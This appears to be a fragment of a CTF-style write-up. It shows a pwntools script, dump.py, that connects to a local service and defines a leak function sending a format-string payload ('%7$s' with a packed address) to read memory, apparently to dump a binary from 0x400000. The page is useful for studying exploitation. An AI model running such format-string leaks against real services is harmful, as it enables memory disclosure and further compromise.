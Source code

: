 [![](assets/1701678669-4f3d8f9f01104fce9ecb9e53dc0a836a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128210856-49c15f78-8def-1.png)

## dump.py

```plain
import os
import sys
import time
from pwn import *
from ctypes import *
import binascii

context.os = 'linux'
context.log_level = "debug"

context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=remote('127.0.0.1',5001)

begin=0x400000
bin = b''
def leak(addr):
    pl="%7$sdump"+p64(addr)
    sla('Please enter your answer\n',pl)
    data=p.recvuntil('dump',drop=True)
    #data = p.recvrepeat(0.2)
    return data

```